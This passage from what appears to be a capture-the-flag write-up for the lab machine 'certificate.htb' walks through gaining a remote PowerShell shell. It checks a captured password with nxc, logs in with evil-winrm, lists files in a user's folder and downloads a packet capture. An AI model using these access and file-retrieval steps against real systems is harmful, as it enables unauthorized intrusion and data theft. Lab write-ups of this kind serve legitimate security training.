```
~$ nxc winrm certificate.htb -u sara.b -p Blink182 -d certificate.htb

WINRM       <IP>     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
WINRM       <IP>     5985   DC01             [+] certificate.htb\sara.b:Blink182 (Pwn3d!)
```

<p class="indent-paragraph">
With WinRM access confirmed, a full remote PowerShell session was initiated using <code>evil-winrm</code><span class="codefix">.</span> Upon successful authentication, the session landed directly on the user context of <code>certificate\sara.b</code><span class="codefix">.</span>
</p>

```
~$ evil-winrm -i certificate.htb -u sara.b -p Blink182                               
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
~$ *Evil-WinRM* PS C:\Users\Sara.B\Documents> whoami
certificate\sara.b
```

<p class="indent-paragraph">
Navigating through the user's document folder, a subdirectory named <code>WS-01</code> revealed two files of interest: <code>Description.txt</code> and <code>WS-01_PktMon.pcap</code><span class="codefix">.</span> The text file described anomalous behavior related to a shared folder named <code>Reports</code> hosted on <code>DC01</code><span class="codefix">.</span> Specifically, it indicated that invalid credentials would return a typical error, while valid credentials caused the file explorer to freeze and crash<span class="codefix">.</span> This description suggests a deeper issue potentially tied to authentication handling or resource permissions, making the accompanying <code>.pcap</code> file a valuable asset for further network traffic analysis.
</p>

```
~$ *Evil-WinRM* PS C:\Users\Sara.B\Documents> dir


    Directory: C:\Users\Sara.B\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        11/4/2024  12:53 AM                WS-01


~$ *Evil-WinRM* PS C:\Users\Sara.B\Documents> cd WS-01
~$ *Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> dir


    Directory: C:\Users\Sara.B\Documents\WS-01


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap


~$ *Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> type Description.txt
The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!

~$ *Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> download WS-01_PktMon.pcap
```